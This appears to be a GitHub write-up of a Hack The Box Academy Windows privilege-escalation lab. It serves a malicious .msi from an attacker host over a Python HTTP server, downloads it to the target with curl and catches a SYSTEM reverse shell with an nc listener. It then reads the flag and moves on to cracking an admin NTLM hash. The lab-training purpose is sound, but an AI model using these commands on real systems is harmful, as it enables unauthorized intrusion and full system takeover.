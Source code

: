 Start a server to prepare to transfer the file:

```
python3 -m http.server
```

Open PowerShell and download the malicious .msi file to the target:

```
PS C:\Users\htb-student> curl http://10.10.15.140:8000/aie.msi -o "C:\Users\htb-student\Desktop\aie.msi"
```

On Pwnbox, start an nc listener to catch the incoming shell connection:

```
$ nc -lnvp 7777
listening on [any] 7777 ...
```

Click the aie.msi file on the Desktop:

<img width="1569" height="631" alt="image" src="https://github.com/user-attachments/assets/1fff5716-a80f-4d77-a134-ec833bc4f30e" />
<img width="1572" height="708" alt="image" src="https://github.com/user-attachments/assets/8fa9527e-7906-4aa6-b801-f93d965c8f24" />


Check listener for the shell received: 

```
nc -lnvp 7777
listening on [any] 7777 ...
connect to [10.10.15.140] from (UNKNOWN) [10.129.43.33] 49675
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

Locate and open the flag in `C:\users\Administrator\desktop\flag.txt`: 

```
C:\Windows\system32>type C:\users\Administrator\desktop\flag.txt
type C:\users\Administrator\desktop\flag.txt
elXXXXXXXXXXXXXXXXsky
```

Just going to the file will open it up in notepad: 

```
C:\users\Administrator\desktop\flag.txt
```

<img width="1790" height="687" alt="image" src="https://github.com/user-attachments/assets/b196998d-86e9-4ff0-a4a0-dbf22162e8ce" />


#### 3. There is 1 disabled local admin user on this system with a weak password that may be used to access other systems in the network and is worth reporting to the client. 
After escalating privileges retrieve the NTLM hash for this user and crack it offline. Submit the cleartext password for this account.
